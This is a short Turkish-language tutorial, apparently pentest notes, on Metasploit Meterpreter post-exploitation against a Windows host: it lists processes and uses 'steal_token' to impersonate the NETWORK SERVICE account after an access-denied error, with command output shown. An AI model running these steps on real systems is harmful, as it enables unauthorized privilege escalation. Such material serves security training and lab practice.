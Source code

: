 ## MSF - Meterpreter Migration

Meterpreter shell elde ettikten sonra bazı komutları çalıştırmayı denediğimizde erişim reddedildi mesajı alırız:

```text
getuid
```

```text title="Output"
[-] 1055: Operation failed: Access is denied.
```

Bu durumda yetkimizi yükseltmemiz gerekebilir. Öncelikle işlemleri görüntüleyelim:

```text
ps
```

```text title="Output"
Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 216   1080  cidaemon.exe
 272   4     smss.exe
 292   1080  cidaemon.exe

...SNIP...

 1712  396   alg.exe
 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4076  1080  cidaemon.exe
```

Ardından aşağıdaki komutu çalıştıralım:

```text
steal_token 1836
```

```text title="Output"
Stolen token with username: NT AUTHORITY\NETWORK SERVICE
```
